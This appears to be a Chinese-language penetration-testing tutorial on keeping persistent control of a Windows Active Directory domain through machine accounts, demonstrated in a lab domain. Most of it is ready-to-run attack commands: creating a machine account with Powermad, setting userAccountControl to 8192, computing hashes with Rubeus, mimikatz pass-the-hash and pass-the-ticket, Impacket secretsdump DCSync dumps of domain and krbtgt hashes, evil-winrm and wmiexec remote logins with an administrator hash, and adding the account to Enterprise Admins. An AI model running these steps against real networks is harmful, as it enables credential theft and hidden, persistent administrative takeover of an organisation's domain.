## 如何使用机器账户进行域维权

- - -

## [0x00 前言](#toc_0x00)

机器账户在许多技术中可以用于提权或横向移动，如使用机器账户的委派进行dcsyn了上述作用，使用机器账户也可进行维权操作。我们可以将任意计算机账户添加到高权限组(例如Domain Admin、Domain Controllers、Enterprise Admins) 或对计算机账户的userAccountControl属性进行修改。使用这两种方式，我们可以通过机器账户在域内进行身份认证（因为密码已知）并进行提权操作，例如Dcsync拖取域内hash。

除了上述作用，使用机器账户也可进行域维权操作。我们可以将任意计算机账户添加到高权限组(例如Domain Admin、Domain Controllers、Enterprise Admins) 或对计算机账户的`userAccountControl`属性进行修改。使用这两种方式，我们可以通过机器账户在域内进行身份认证（因为密码已知）并进行提权操作，例如Dcsync拖取域内hash。

## [0x01 userAccountControl说明](#toc_0x01-useraccountcontrol)

默认的情况下，域中的标准用户最多可以创建10个机器账户，这是由**ms-DS-MachineAccountQuota**进行设定的。我们可以使用Powermad等工具从加入域和未加入域的主机中进行添加账户操作。但为了让机器账户在域中显示为域控制器，我们还需要将`userAccountControl`属性设置为0x2000(SERVER\_TRUST\_ACCOUNT)的值。0x2000换算为十进制数字为8192.修改此属性需要域管理员级别的权限。下面我们从ADSI编辑器中进行修改，改为8192  
[](https://storage.tttang.com/media/attachment/2022/02/19/da789952-56e5-4424-8a42-861b724b2672.png)

## [0x02 PowerMad+Active Directory组合:](#toc_0x02-powermadactive-directory)

### [添加机器账户](#toc_)

我们在进行维权时，可以从利用工具从命令行创建机器账户。例如Standln、SharpMad以及PowerMad等工具；下面展示如何利用PowerMad在域内添加一个机器账户。

```plain
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount Nayon -Domain attack.local -DomainController dc.attack.local
```

[](https://storage.tttang.com/media/attachment/2022/02/19/5386ea9f-a3b5-496e-9177-b79d6bcdfc34.png)  
此时我们便添加机器账户成功了，利用如下命令查看:

```plain
net group "domain computers" /domain
```

[](https://storage.tttang.com/media/attachment/2022/02/19/cb758965-fbeb-423e-825a-478fce1708c9.png)

### [修改机器账户userAccountControl属性值](#toc_useraccountcontrol)

我们所创建的这台机器账户primarygroupid经过查询可知是515，他是域组的RID，表示这是一台域计算机，利用Active-Module模块，使用域管权限账户为计算机账户Nayon修改`userAccountControl`值为8192，则primarygroupid将更改为属于域控制器（可写）的 516。

```plain
Get-ADComputer Nayon -pro * | Select-object name, primarygroupid, useraccountcontrol
Set-ADComputer Nayon -replace @{ "userAccountcontrol" = 8192 }
```

[](https://storage.tttang.com/media/attachment/2022/02/19/df2793c3-84a9-4005-be66-2f932c5d597b.png)

此处为执行效果。

### [获得机器账户hash](#toc_hash)

由于我们已知机器账户的密码，因此我们可以利用它的NTLM 、aes128、aes256 hash 来进行pth，用于获得一个拥有域控制器权限的会话。

利用Rubes将Nayon账户的明文密码转为NTLM hash，用于维权时进行的pth。

```plain
Rubeus.exe hash /user:Nayon /password:Password@1! /domain:attack.local
```

[](https://storage.tttang.com/media/attachment/2022/02/19/e24b6e10-0f8b-453a-a9d4-8f0a51cf4ccf.png)  
如图所示，成功拿到了机器账户的hash。

### [利用方式:](#toc__1)

#### [PTH传递获得权限](#toc_pth)

在域内机器上利用mimikatz进行pth攻击，成功弹回具有Nayon用户权限的新会话。

```plain
sekurlsa::pth /user:Nayon /domain:attack.local /aes128:95F9380561068098A673F425207EFA0D
```

[](https://storage.tttang.com/media/attachment/2022/02/19/46e96116-5e33-41e4-832f-8bd5c06b13de.png)  
**注意：此处拿到的会话，唯有域用户处于高权限组内才可使用dcsync获得域内hash。**

#### [利用PTT获得权限](#toc_ptt)

由于PTH是需要本地管理员权限的，若我们此时连本地管理员权限都没有，我们还可以使用mimikatz自带的ptt功能拿到相应权限。

**注意：此处拿到的会话，本人本地测试即使是将机器用户的`userAccountConrol`属性值改为8192也无法执行dcsync获得域内hash，唯有划入域内高权限组内可以使用机器账户权限执行dcsync。**

利用利用Rubes申请拿到机器账户的hash

```plain
Rubeus.exe hash /user:Nayon /password:123456 /domain:attack.local
```

使用keke申请tgt票据，用于下一步的ptt攻击

```plain
tgt::ask /user:Nayon2 /domain:attack.local /ntlm:32ED87BDB5FDC5E9CBA88547376818D4
```

[](https://storage.tttang.com/media/attachment/2022/02/19/cde4091a-1b95-4430-80f7-baa9fcfa77c5.png)

```plain
kerberos::ptt  TGT_Nayon@ATTACK.LOCAL_krbtgt~attack.local@ATTACK.LOCAL.kirbi
```

[](https://storage.tttang.com/media/attachment/2022/02/19/8092c95f-47e4-474e-a79a-023103564a12.png)  
此时成功拿到域内hash

#### [利用impacket套件执行dcsync](#toc_impacketdcsync)

使用Impacket套件中的secretsdump.py脚本，结合域内机器账户的凭证拖取域内hash

```plain
python3 secretsdump.py attack.local/Nayon\$:'Password@1!'@10.10.10.165 -just-dc
```

[](https://storage.tttang.com/media/attachment/2022/02/19/07bf8a43-30cb-4226-a8d5-9da859f3310b.png)  
利用其中的域管NTLM hash与域控机进行通信

#### [Evil-WinRM通过WinRM远程链接](#toc_evil-winrmwinrm)

前提是域管开启WinRM服务，默认端口5985

指定域管用户以及域管用户的NTLM hash 远程链接

```plain
evil-winrm -i 10.10.10.165 -u administrator -H dbf36575210cc5a38ab4050cc6a2e9aa
```

[](https://storage.tttang.com/media/attachment/2022/02/19/bce64d3c-5ea0-4001-ab7e-284f3ad009fa.png)

#### [Impacket套件wmiexec.py远程链接](#toc_impacketwmiexecpy)

```plain
python3 wmiexec.py -hash dbf36575210cc5a38ab4050cc6a2e9aa administrator@10.10.10.165
```

[](https://storage.tttang.com/media/attachment/2022/02/19/a2efb02a-10bc-4e09-abce-170d6400fcf6.png)

### [加入高权限用户组用以维权](#toc__2)

除去域用户之外，域内机器账户也可以添加到高权限用户组中用以维权。利用Active Directory模块查询域管用户所在的用户组。

```plain
Get-ADGroupMember "administrators"
```

[](https://storage.tttang.com/media/attachment/2022/02/19/0f1039f6-54c2-42a2-974a-b8e0bddfa8fa.png)

使用域管权限的会话添加机器账户Nayon$到高权限用户组内。

可加入Enterprise Admins、Administrators、Domain Admins等高权限组内用以维权。

```plain
net group "Enterprise admins" Nayon$ /add /domain
```

利用net group查看是否被添加成功

```plain
net group "Enterprise admins" /domain
```

[](https://storage.tttang.com/media/attachment/2022/02/19/2e9f88bc-cade-430c-8a01-ae5e39dd59aa.png)

此时我们便可以使用Impacket中的secretsdump项目获得域内hash

```plain
python3 secretsdump.py attack.local/Nayon\$:'123456'@10.10.10.165 -just-dc-user krbtgt
```

[](https://storage.tttang.com/media/attachment/2022/02/19/956559a3-f651-4e19-99b2-01dbde141504.png)

参考链接:  
[https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/](https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/)

- - -
